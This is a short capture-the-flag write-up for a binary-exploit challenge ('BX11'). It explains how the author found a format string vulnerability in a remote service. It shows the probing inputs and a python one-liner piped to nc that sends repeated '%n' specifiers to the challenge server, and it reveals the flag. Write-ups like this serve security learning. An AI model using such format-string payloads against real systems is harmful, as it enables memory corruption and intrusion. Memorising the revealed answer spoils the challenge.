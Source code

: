 # BX11
## Binary Exploit (Extreme)

![BX111](BX11.png)

For this challenge, we are given one big hint in the brief where it mentions using the correct **FORMAT**

I didn't take a screen shot at the time but the server responds with:

```
The user object UID=073
Please enter a sevice request:
```

At first, I tried to send different base-encodings and different file formats to see if something different would happen other than an "Invalid service request" message.

Finally, I remembered this blog post about a big Tesla bug bounty and how he started by trying to use format string exploits:

[Cracking my windshield and earning $10,000 on the Tesla Bug Bounty Program](https://samcurry.net/cracking-my-windshield-and-earning-10000-on-the-tesla-bug-bounty-program/)

Here is a good explanation of what is happening if you need a refresher:

[OWASP - Format String Attack](https://owasp.org/www-community/attacks/Format_string_attack)

I started by sending "A%x" and sure enough, it responded with "Unknown format string", so I knew I was getting somwhere.

Next I sent "A%n" and saw the message:

```
Object validated: The 
```

So I sent a payload with more format expressions using python:

```
python -c "print 'A'+'%n'*10" | nc bx11.allyourbases.co 9016
```
and the server responded with:

```
Object validated: The user object UID=073
```

followed by the flag **stringing_me_along**.

